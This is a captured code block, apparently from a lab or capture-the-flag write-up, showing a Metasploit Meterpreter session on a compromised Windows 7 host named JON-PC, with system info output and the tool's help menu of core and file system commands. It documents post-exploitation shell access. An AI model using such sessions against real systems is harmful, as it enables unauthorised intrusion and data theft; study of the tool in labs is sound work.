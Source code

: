 ```
[*] Starting interaction with 2...

meterpreter > pwd
C:\Windows\system32
meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter >

meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    migrate                   Migrate the server to another process
    pivot                     Manage pivot listeners
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session.
    transport                 Change the current transport mechanism
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
    write                     Writes data to a channel


Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
```